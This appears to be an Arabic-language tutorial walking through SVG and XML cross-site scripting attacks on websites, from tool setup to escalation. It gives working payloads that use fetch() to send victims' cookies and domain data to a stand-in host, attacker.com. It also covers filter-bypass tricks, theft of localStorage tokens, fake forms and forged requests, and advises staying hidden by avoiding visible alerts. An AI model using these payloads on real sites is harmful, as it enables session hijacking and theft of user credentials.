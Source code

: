 
## الخطوات العملية للحقن المستخدمة في SVG وXML
1. **إعداد البيئة**:
   - استخدم متصفحًا مع أداة وكيل (مثل **Burp Suite** أو **OWASP ZAP**) لمراقبة الطلبات الصادرة الناتجة عن الحقن.
   - أعد خادمًا خارجيًا (مثل خادم Python بسيط أو خدمة مثل `ngrok`) لتسجيل البيانات المرسلة من الحقن.
   - افتح أدوات المطورين في المتصفح (F12) لمراقبة وحدة التحكم (Console)، الشبكة (Network)، وتغييرات DOM.
   - تأكد من أن الموقع يدعم تحميل ملفات SVG/XML أو عرض محتوى هذه التنسيقات (مثل صور SVG أو بيانات XML في API).

2. **تحديد نقاط الإدخال العرضة**:
   - ابحث عن نقاط إدخال تتيح إدخال أو عرض محتوى SVG/XML، مثل:
     - حقول تحميل الملفات (مثل صور الملف الشخصي).
     - حقول نصية تُعرض كجزء من الصفحة (مثل التعليقات أو الوصف).
     - معلمات URL التي تُعرض كمحتوى SVG/XML.
     - واجهات API التي تعالج بيانات XML.
   - افحص استجابات الموقع (عبر Burp Suite أو عرض المصدر) لتحديد ما إذا كان يُسمح بوسوم SVG/XML دون تنظيف.
   - تحقق من دعم المتصفح للأحداث والوسوم (مثل `onload` في SVG أو `xlink:href` في XML).

3. **إدخال الحقن**:
   - أدخل شيفرة SVG أو XML تحتوي على JavaScript في نقطة الإدخال العرضة.
   - صمم الحقنة لتنفيذ شيفرة ضارة، مثل:
     - SVG: `<svg onload="fetch('http://attacker.com/log?c='+document.cookie)"></svg>`
     - XML: `<a xlink:href="javascript:fetch('http://attacker.com/log?c='+document.cookie)">Click</a>`
   - جرب الحقن في سياقات مختلفة:
     - تحميل ملف SVG: أنشئ ملفًا بمحتوى `<svg><script>alert('XSS')</script></svg>` وقم بتحميله.
     - حقل نصي: أدخل `<svg onload="alert('XSS')"></svg>` في تعليق أو وصف.
     - معلمة URL: `https://example.com/?data=<svg onload="fetch('http://attacker.com/log?c='+document.cookie)"></svg>`
     - API XML: أرسل `<root><a xlink:href="javascript:alert('XSS')">Click</a></root>` عبر طلب POST.

4. **مراقبة الاستجابات**:
   - تحقق من تنفيذ الحقنة عبر:
     - **أدوات المطورين**: راقب وحدة التحكم (Console) للأخطاء أو التنبيهات، والشبكة (Network) للطلبات الصادرة.
     - **خادم خارجي**: تحقق من سجلات الخادم لتأكيد استلام البيانات (مثل ملفات تعريف الارتباط).
     - **تغييرات DOM**: تحقق من تعديل الصفحة أو إعادة التوجيه.
   - **نجاح (True)**: الشيفرة تُنفذ (مثل ظهور تنبيه، إرسال بيانات إلى الخادم، أو إعادة توجيه).
   - **فشل (False)**: لا يتم التنفيذ بسبب فلاتر، CSP، أو تنظيف الإدخال.
   - سجل النتائج لتحديد الحقن الناجحة.

5. **تجربة أنواع حقن مختلفة**:
   - إذا فشلت الحقنة، جرب أنواعًا أخرى:
     - SVG: استخدم أحداثًا مختلفة (مثل `onclick`، `onmouseover`) أو وسوم أخرى (مثل `<a>` أو `<foreignObject>`).
     - XML: استخدم XLink مع `javascript:`، أو أدرج شيفرة JavaScript داخل معالجات XML.
     - تجاوز الفلاتر: جرب صيغ بديلة مثل `<SVG ONLOAD=alert('XSS')>` (حروف كبيرة) أو تعتيم الشيفرة.
   - اختبر نقاط إدخال متعددة (مثل حقول نصية أخرى، تحميل ملفات، أو واجهات API).
   - جرب حقنًا مع إرسال بيانات مختلفة (مثل `document.domain`، `localStorage`).

6. **تأكيد السياق وتصعيد الاستغلال (اختياري)**:
   - استخدم حقن تكشف سياق التنفيذ (مثل `<svg onload="fetch('http://attacker.com/log?d='+document.domain)"></svg>`).
   - إذا نجحت الحقن، جرب هجمات متقدمة مثل:
     - سرقة بيانات حساسة (مثل `localStorage.getItem('token')`).
     - التلاعب بالصفحة (مثل إنشاء نموذج مزيف).
     - تنفيذ إجراءات المستخدم (مثل إرسال طلبات POST).
   - حافظ على التخفي بتجنب التنبيهات البصرية إذا كنت تستهدف سياقات حساسة.

---